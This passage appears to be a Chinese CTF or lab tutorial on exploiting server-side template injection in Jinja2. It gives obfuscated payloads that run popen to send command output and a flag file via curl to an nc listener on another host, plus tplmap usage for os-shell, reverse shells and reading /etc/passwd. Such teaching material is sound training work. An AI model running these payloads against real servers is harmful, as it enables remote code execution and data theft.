在本机开启监听

```plain
nc -lvp 2333
```

然后让查询疾结果返回

```plain
http://192.168.173.66:5000/haha/
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[160].__enter__.__globals__['po'+'pen']('curl http://192.168.173.1:2333 -d `ls /`').read()}}
```


读取内容

```plain
http://192.168.173.66:5000/haha/
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[160].__enter__.__globals__['po'+'pen']('curl http://192.168.173.1:2333 -d `cat /Th1s_is__F1114g`').read()}}
```


## 6. 自动化攻击

这里推荐自动化工具tplmap，拿shell、执行命令、bind_shell、反弹shell、上传下载文件，Tplmap为SSTI的利用提供了很大的便利，也支持其他模板（Smarty，Mako，Tornado，Jinja2）的注入检测

```plain
https://github.com/epinna/tplmap
```

然而作者并未提供对python3的支持，此处建议使用docker版本

```plain
docker run -it --rm registry.cn-hangzhou.aliyuncs.com/eagleslab/ctf:tplmap bash
```

### 6.1 用法

```plain
root@df07a797550f:/tplmap# python tplmap.py -u 'http://192.168.173.1:5000/ssti?name=1'
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: nt-win32
  Technique: render
  Capabilities:

   Shell command execution: no
   Bind and reverse shell: no
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Rerun tplmap providing one of the following options:

    --upload LOCAL REMOTE       Upload files to the server
    --download REMOTE LOCAL     Download remote files
```

### 6.2 选项

### 6.3 1.6.3

```plain
Usage: python tplmap.py [options]
 
选项:
  -h, --help          显示帮助并退出
 
目标:
  -u URL, --url=URL   目标 URL
  -X REQUEST, --re..  强制使用给定的HTTP方法 (e.g. PUT)
 
请求:
  -d DATA, --data=..  通过POST发送的数据字符串 它必须作为查询字符串: param1=value1&param2=value2
  -H HEADERS, --he..  附加标头 (e.g. 'Header1: Value1') 多次使用以添加新的标头
  -c COOKIES, --co..  Cookies (e.g. 'Field1=Value1') 多次使用以添加新的Cookie
  -A USER_AGENT, -..  HTTP User-Agent 标头的值
  --proxy=PROXY       使用代理连接到目标URL
 
检测:
  --level=LEVEL       要执行的代码上下文转义级别 (1-5, Default: 1)
  -e ENGINE, --eng..  强制将后端模板引擎设置为此值
  -t TECHNIQUE, --..  技术 R:渲染 T:基于时间的盲注 Default: RT
 
操作系统访问:
  --os-cmd=OS_CMD     执行操作系统命令
  --os-shell          提示交互式操作系统Shell
  --upload=UPLOAD     上传本地文件到远程主机
  --force-overwrite   上传时强制覆盖文件
  --download=DOWNL..  下载远程文件到本地主机
  --bind-shell=BIN..  在目标的TCP端口上生成系统Shell并连接到它
  --reverse-shell=..  运行系统Shell并反向连接到本地主机端口
 
模板检查:
  --tpl-shell         在模板引擎上提示交互式Shell
  --tpl-code=TPL_C..  在模板引擎中注入代码
 
常规:
  --force-level=FO..  强制将测试级别设置为此值
  --injection-tag=..  使用字符串作为注入标签 (default '*')
```

通常使用--os-shell来反弹shell来控制靶机

```
$ ./tplmap.py --os-shell -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Run commands on the operating system.

linux $ whoami
www
linux $ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```

